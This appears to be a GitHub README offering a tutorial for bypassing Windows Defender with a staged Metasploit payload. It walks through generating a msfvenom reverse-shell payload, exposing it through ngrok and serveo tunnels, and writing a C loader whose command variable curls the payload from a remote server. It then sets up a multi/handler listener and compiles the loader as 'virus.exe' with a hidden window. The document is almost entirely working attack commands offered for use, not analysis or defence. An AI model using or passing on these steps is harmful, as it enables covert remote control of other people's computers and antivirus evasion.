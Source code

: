 # Bypass-Windows-Defender
Bypass Windows Defender with a staged C code &amp; metasploit framework

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code and execute.
##

### Install all requirements on debian
   - Install Ngrok
   ```
  wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
  unzip ngrok-stable-linux-amd64.zip
  sudo mv ngrok /usr/local/bin/
  ```
  - install metasploit framework
  ```
  curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/scripts/ubuntu_install.sh > ubuntu_install.sh
  chmod +x ubuntu_install.sh
  ./ubuntu_install.sh
  ```
  - install gcc
  ```
  sudo apt install gcc-mingw-w64-x86-64
  ```
##

### Install all requirements on Arch Linux
   - Install Ngrok
   ```
  git clone https://aur.archlinux.org/ngrok-bin.git
  cd ngrok-bin
  makepkg -si
  ```
  - metasploit framework
  ```
  sudo pacman -S metasploit
  ```
  - install gcc
  ```
  sudo pacman -S mingw-w64-gcc
  ```

##
### Tutorial for bypass Windows Defender

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
    python -m http.server 8090
  ```

- Create the serveo key and expose python server using a serveo tunnel
  ```
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

- Create the main.c file and modify the "command" variable with your server
```
   char *command = "curl https://yourServer.serveo.net/payload.bin";
```

<p align="start">
   <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/command_variable.png">
</p>

##

- Setting up msfconsole
```
   msfconsole
```
```
   use exploit multi/handler
   ```
```
   set payload windows/x64/shell_reverse_tcp
```
```
   set LHOST <LOCAL IP>
   ```
```
   set LPORT 4444
```
```
   exploit
```

##

- Compile the main.c file for Windows
   - For Windows
   ```
   gcc main.c -o virus -mwindows
   ```
   - For Linux
   ```
   x86_64-w64-mingw32-gcc -o virus.exe main.c -mwindows
   ```

   ## ⚠️ don't forget the -mwindows parameter

  ##

  


